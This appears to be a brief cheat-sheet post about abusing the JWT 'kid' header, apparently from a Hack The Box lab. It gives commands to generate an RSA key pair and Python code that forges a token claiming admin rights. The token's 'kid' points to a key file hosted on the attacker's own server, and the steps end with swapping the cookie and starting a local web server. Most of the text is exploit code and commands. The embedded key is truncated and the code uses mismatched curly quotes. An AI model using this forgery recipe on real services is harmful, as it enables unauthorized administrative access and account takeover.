 ```yaml
---
layout: post
title: "jwt"
keywords: "jwt, json, token, kid, web token"
---
```


> `"kid" (key ID)` is an optional header claim which holds a key identifier, particularly useful when you have multiple keys to sign the tokens and you need to look up the right one to verify the signature - [https://tools.ietf.org/html/rfc7515#section-4.1.4](https://tools.ietf.org/html/rfc7515#section-4.1.4)


#### First create a new private RSA Private Key

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
cat jwtRS256.key
cat jwtRS256.key.pub
```

#### Grab header and payload 
-> https://jwt.io/

#### Generate new token

```
private_key = ‘’'
-----BEGIN RSA PRIVATE KEY-----
88CVL/nFFPb+EcPpz9N2OTG4T8gAsYxgAU3q/Llt/NnXASm6CO4p82VXjaGz
-----END RSA PRIVATE KEY-----
‘’'
payload = {"username":"parity0x1","email":"parity0x1@htb.htb","admin_cap":1}
encoded = jwt.encode(payload, private_key, algorithm="RS256",headers={"kid":"http://10.10.14.100:8000/jwtRS256.key"})
print(encoded)
```

#### Replace cookie

#### Start local server
```
python3 -m http.server
```